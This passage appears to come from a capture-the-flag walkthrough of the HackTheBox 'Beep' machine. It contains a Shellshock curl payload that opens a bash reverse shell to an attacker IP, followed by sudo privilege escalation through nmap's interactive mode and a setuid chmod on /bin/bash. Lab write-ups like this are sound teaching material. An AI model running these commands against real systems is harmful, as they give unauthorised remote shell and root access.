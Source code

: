 	```
	![](vmware_w0s8CY9Hst.gif)
6. Start listener
7. Invoke reverse shell
	```
	┌──(root💀kali)-[~/htb/beep]
	└─# curl -ks -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1;" https://beep.htb:10000
	```
8. Shell Obtained
	![]({{ page.img_path }}Pasted%20image%2020220823051418.png)


# Privilege Escalation

## Root - Via SUDO GTFOBins
1. Check sudo access for `asterisk`
	```
	bash-3.2$ sudo -l
	sudo -l
	Matching Defaults entries for asterisk on this host:
	    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
	    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
	    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
	    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
	    XAUTHORITY"
	
	User asterisk may run the following commands on this host:
	    (root) NOPASSWD: /sbin/shutdown
	    (root) NOPASSWD: /usr/bin/nmap
	    (root) NOPASSWD: /usr/bin/yum
	    (root) NOPASSWD: /bin/touch
	    (root) NOPASSWD: /bin/chmod
	    (root) NOPASSWD: /bin/chown
	    (root) NOPASSWD: /sbin/service
	    (root) NOPASSWD: /sbin/init
	    (root) NOPASSWD: /usr/sbin/postmap
	    (root) NOPASSWD: /usr/sbin/postfix
	    (root) NOPASSWD: /usr/sbin/saslpasswd2
	    (root) NOPASSWD: /usr/sbin/hardware_detector
	    (root) NOPASSWD: /sbin/chkconfig
	    (root) NOPASSWD: /usr/sbin/elastix-helper
	```
	- `nmap` - has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/nmap/#sudo)
	- `chmod` - has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/chmod/#sudo)
	- `yum` - has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/yum/#sudo)
2. Exploit `nmap` & obtain Root Flag
	```
	bash-3.2$ sudo nmap --interactive
	nmap> !bash
	```
	![]({{ page.img_path }}Pasted%20image%2020220823033912.png)
3. Exploit `chmod`
	```
	bash-3.2$ sudo chmod u+s /bin/bash
	```
	![]({{ page.img_path }}Pasted%20image%2020220823044416.png)
4. Exploit `yum`
	```